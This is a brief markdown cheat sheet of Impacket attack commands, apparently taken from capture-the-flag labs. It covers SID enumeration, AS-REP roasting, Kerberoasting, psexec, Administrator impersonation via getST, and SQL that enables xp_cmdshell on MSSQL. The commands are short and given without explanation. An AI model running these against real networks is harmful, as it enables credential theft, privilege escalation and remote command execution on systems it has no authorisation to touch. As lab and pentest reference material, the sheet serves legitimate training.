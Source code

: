 # Impacket

## Impacket-lookupsid
```bash
impacket-lookupsid domain/guest@$ip
```

## Impacket-GetNPUsers
```
impacket-GetNPUsers vulnet-rst.local/ -no-pass -userfile users.txt
```

## Impacket-psexec
```
impacket-psexec vulnnet-rst.local/a-whitehat@10.10.216.107
```

## Impacket-GetUserSPNs
```
impacket-GetUserSPNs vulnnet-rst.local/$username:$password -dc-ip $ip -request
```

## Impacket-getST
```
impacket-getST -k -impersonate Administrator -spn cifs/HayStack.thm.corp thm.corp/DARLA_WINTERS
```

## Impacket-mssqlclient
```
SQL (ARCHETYPE\sql_svc  dbo@master)> select is_srvrolemember('sysadmin');
```

### Configure if xp_cmdshell is not activated
```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; - Enabling the sp_configure as stated in the above error message
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```
